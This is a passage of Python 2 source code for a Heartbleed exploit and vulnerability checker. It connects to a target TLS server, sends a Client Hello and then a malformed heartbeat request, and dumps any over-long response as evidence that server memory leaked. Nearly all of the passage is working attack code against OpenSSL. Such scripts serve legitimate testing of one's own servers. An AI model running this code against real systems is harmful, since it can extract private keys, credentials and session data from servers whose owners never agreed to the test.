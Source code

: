 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    
    # We asked for 64 kB, so we should get 4 packets
    contentType, version, payload = receiveTLSMessage(s, 4)
    if contentType is None:
        print 'No heartbeat response received, server likely not vulnerable'
        return False

    if contentType == 24:
        print 'Received heartbeat response:'
        dump(payload)
        if len(payload) > 3:
            print 'WARNING: server returned more data than it should - server is vulnerable!'
        else:
            print 'Server processed malformed heartbeat, but did not return any extra data.'
        return True

    if contentType == 21:
        print 'Received alert:'
        dump(payload)
        print 'Server returned error, likely not vulnerable'
        return False
  
def main():
    opts, args = options.parse_args()
    if len(args) < 1:
        options.print_help()
        return
  
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print 'Connecting...'
    sys.stdout.flush()
    s.connect((args[0], opts.port))
    print 'Sending Client Hello...'
    sys.stdout.flush()
    s.send(helloPacket)
    print 'Waiting for Server Hello...'
    sys.stdout.flush()
    # Receive packets until we get a hello done packet
    while True:
        contentType, version, payload = receiveTLSMessage(s)
        if contentType == None:
            print 'Server closed connection without sending Server Hello.'
            return
        # Look for server hello done message.
        if contentType == 22 and ord(payload[0]) == 0x0E:
            break
  
    print 'Sending heartbeat request...'
    sys.stdout.flush()
    
    # Jared Stafford's version sends heartbleed packet here too. It may be a bug.
    exploit(s)
  
if __name__ == '__main__':
    main()
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
